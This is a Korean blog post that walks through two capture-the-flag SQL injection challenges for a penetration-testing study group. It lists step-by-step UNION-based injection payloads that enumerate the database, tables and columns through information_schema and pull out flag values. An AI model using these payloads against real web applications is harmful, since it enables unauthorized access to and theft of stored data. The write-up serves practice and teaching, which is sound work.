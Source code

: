 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, CTF]
---
```


# SQL INJECTION 1
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)  
    * 🤔 대소문자 구분이 없구나!

2. 🫣 **~~adminer'~~** -> X

3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    * 🤔 like 구절이 있구나

4. 🫣 **~~a#~~** -> X

5. 🫣 **~~a'#~~** -> X

6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
    * 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
    * 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다

7. 🫣 **~~' and '1' = '1~~** -> X

8. 🫣 **~~%' and '1' = '1~~** -> X

9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)

## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
    * 💡 보이는 column이 4개니까 4개부터 시작했다.

11. **' order by 1, 2, 3, 4, 5 #** -> X
    * 🤔 column의 개수가 4개구만

## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)

## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
    * 💡 database 이름은 sqli_1이었다.

## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
    * 💡 table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.

## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
    * 💡 flag_table에서는 flag라는 column을 확인할 수 있었다.

21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
    * 💡 plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.

## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)

23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)

# SQL INJECTION 2
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-14.png?raw=true)
위쪽 문제랑 보이기에는 비슷해보인다.

## SQL Query 파악
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-15.png?raw=true)
    * 💡 보이는 column은 ID, Level, Rank Point, info

2. **normaltic' and '1' = '1**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-16.png?raw=true)
    * 💡 ID가 입력한 그대로 보임

3. 🫣 **~~*~~** -> X

## column 개수 파악하기
4. **normaltic' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-17.png?raw=true)
    * 💡 보이는 column이 4개니까 4개부터 시작했다.

5. **normaltic' order by 1, 2, 3, 4, 5 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-18.png?raw=true)

6. **normaltic' order by 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-19.png?raw=true)

7. **normaltic' order by 1, 2, 3, 4, 5, 6, 7 #** -> X
    * 🤔 column의 개수가 6개구만

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. **' union select 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-20.png?raw=true)
    * 💡 보이는 column은 6번 위치에 있었다.

10. **' union select 1, 2, 3, 4, 5, database() #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-21.png?raw=true)
    * 💡 database 이름은 sqli_5이다.

## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 💡 table 이름은 flag_honey였다.

## COLUMN 이름 확인하기
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-23.png?raw=true)
    * 💡 column 이름은 flag였다.

## DATA 추출하기
13. **' union select 1, 2, 3, 4, 5, flag from flag_honey #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-24.png?raw=true)
    * 😬 어쩐지 구라핑의 냄새가 나더라

## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 🤔 왜 1개씩 밖에 안 보일까?
        * 🤔 row가 딱 한 개다?
        * 🤔 row를 한 개씩만 보여준다?
            * 🤔 다른 row가 더 있는데 안 보이는 게 아닐까?
            * 🤔 다른 row를 보려면 어떤 걸 할 수 있을까?

12. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-25.png?raw=true)
    * 💡 view라는 다른 table이 보여요 좋아요
    * 🤔 row를 한 개씩만 보여준다가 맞는 가정이겠네

13. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-26.png?raw=true)
    * 💡 딱 봐도 수상한 table 이름이다.

## COLUMN 이름 확인하고 DATA 추출하기 1
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-27.png?raw=true)
    * 💡 column 이름은 flag였다.

13. **' union select 1, 2, 3, 4, 5, flag from secret #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-28.png?raw=true)
    * 😬 아니 ㅋㅋㅋ 당했다
    * 🤔 여기서도 역순으로 정렬해볼까?

15. **' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-29.png?raw=true)